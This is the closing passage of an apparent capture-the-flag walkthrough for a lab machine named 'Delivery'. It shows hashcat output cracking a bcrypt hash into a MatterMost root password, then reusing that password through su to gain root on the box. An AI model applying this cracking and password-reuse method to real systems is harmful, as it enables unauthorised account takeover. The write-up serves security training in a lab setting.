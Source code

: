 ```bash
* Passwords.: 1
* Bytes.....: 17
* Keyspace..: 99086
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sun Feb  7 19:48:38 2021 (6 secs)
Time.Estimated...: Sun Feb  7 19:48:44 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/dive.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       13 H/s (2.21ms) @ Accel:2 Loops:32 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 91/99086 (0.09%)
Rejected.........: 0/91 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:90-91 Iteration:992-1024
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Sun Feb  7 19:48:36 2021
Stopped: Sun Feb  7 19:48:46 2021

```

There you have it! The root password on **MatterMost** is *PleaseSubscribe!21*. Was it re-used on the root account of the box? let's find out by using ```su``` from the user account
```bash
maildeliverer@Delivery:~$ su
Password: 
root@Delivery:/home/maildeliverer# id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

Grab the flag from ```/root/root.txt``` and submit it to finish the box!
